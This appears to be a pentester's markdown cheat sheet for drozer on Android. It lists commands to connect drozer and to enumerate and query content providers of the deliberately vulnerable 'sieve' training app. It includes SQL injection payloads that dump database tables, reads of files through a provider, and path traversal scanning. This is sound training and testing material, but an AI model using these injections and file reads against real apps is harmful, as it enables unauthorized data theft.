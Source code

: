 #### Setup drozer
[Android Penetration Tools Walkthrough Series: Drozer - Infosec Resources (infosecinstitute.com)](https://resources.infosecinstitute.com/topic/android-penetration-tools-walkthrough-series-drozer/)

#### Get drozer shell
	`adb forward tcp:31415 tcp:31415`
	`drozer console connect`

#### Content Providers
- Get info from exposed content providers
	`run app.provider.info -a com.mwr.example.sieve`
	
** Note: content provider queries take the form `content://name.of.package.class/declared_name` **

- Drozer can guess and try several URIs
	`run scanner.provider.finduris -a com.mwr.example.sieve`
- Query Content Provider (database based)
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --vertical`
- Update and delete content provider (database based)
	[Exploiting Content Providers - HackTricks](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/drozer-tutorial/exploiting-content-providers)
- Manual SQL Injection test
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"`
- Manual SQL Lite Dump
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"`
- Automatic SQL Discovery
	`run scanner.provider.injection -a com.mwr.example.sieve`
- Read Files
	`run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts`
- Automatic Path Traversal Discovery
	`run scanner.provider.traversal -a com.mwr.example.sieve`
